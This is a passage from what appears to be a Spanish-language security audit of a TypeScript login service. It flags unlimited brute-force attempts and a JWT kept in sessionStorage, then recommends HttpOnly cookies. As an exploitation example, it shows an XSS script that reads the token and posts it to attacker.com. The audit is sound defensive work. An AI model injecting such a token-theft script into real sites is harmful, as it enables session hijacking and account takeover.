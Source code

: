 ```typescript
// - Bloqueo progresivo: 5min → 15min → 1h → 24h
```

**Líneas Afectadas:** `security.helper.ts:22-25`
**Impacto:** Permite ataques de fuerza bruta ilimitados
**Remediación:** URGENTE - Habilitar inmediatamente

---

### 3. **JWT ALMACENADO EN sessionStorage - ALTA**

**Archivo:** `login.service.ts:164`
**Severidad:** 🟡 **MEDIA-ALTA**

```typescript
// VULNERABLE a XSS
sessionStorage.setItem('token', loginResponse.token);
```

**Problema:**
- Si existe una vulnerabilidad XSS, el token es accesible vía JavaScript
- `sessionStorage` es accesible desde cualquier script en el mismo origen
- No hay encriptación del token almacenado

**Explotación Potencial:**
```javascript
// Si un atacante inyecta este script:
<script>
  const stolenToken = sessionStorage.getItem('token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token: stolenToken })
  });
</script>
```

**Mejores Prácticas:**
1. **Cookie HttpOnly** (mejor opción):
   ```typescript
   // El servidor debe enviar:
   Set-Cookie: token=abc123; HttpOnly; Secure; SameSite=Strict; Max-Age=3600

   // El cliente NO almacena nada, el navegador lo maneja automáticamente
   ```

2. **Si sessionStorage es necesario, implementar:**
   ```typescript
   // Encriptar antes de almacenar
   import CryptoJS from 'crypto-js';

   const encryptedToken = CryptoJS.AES.encrypt(
     loginResponse.token,
     getDeviceFingerprint() // Único por dispositivo
   ).toString();

   sessionStorage.setItem('token', encryptedToken);
   ```
